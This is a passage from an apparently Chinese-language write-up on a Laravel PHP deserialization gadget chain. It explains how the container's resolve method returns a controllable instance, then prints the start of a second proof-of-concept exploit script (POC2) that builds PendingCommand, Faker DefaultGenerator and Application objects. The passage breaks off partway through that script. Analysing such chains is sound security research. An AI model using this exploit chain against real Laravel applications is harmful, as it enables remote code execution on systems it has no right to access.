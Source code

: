 ```
        public function __construct($bind)
        {
            $this->bindings = $bind;
        }
    }
}

```

这里`$this->parameters`需要是一个数组类型才行,不然在这里在第一个对象模拟这里就会报错

![image-20211125211128683](images/21.png)

![image-20211125211219328](images/22.png)

## POC2

刚才我们返回Application实例化对象的时候是通过反射去实现的

但是回到resolve方法

![image-20211125211441013](images/23.png)

看看这里的if语句,先看后面`$needsContextualBuild`我们打断点的时候可以很明显的看到他的值是false,所以如果存在`$this->instances[$abstract]`就会直接返回`$this->instances[$abstract]`,这个是可控的,所以就可以直接返回一个实例化的Application对象了

exp如下

```
<?php

namespace Illuminate\Foundation\Testing {
    class PendingCommand
    {
        protected $command;
        protected $parameters;
        public $test;
        protected $app;
        public function __construct($test, $app, $command, $parameters)
        {
            $this->app = $app;
            $this->test = $test;
            $this->command = $command;
            $this->parameters = $parameters;
        }
    }
}

namespace Faker {
    class DefaultGenerator
    {
        protected $default;

        public function __construct($default = null)
        {
            $this->default = $default;
        }
    }
}

namespace Illuminate\Foundation {
    class Application
    {
        protected $instances = [];

```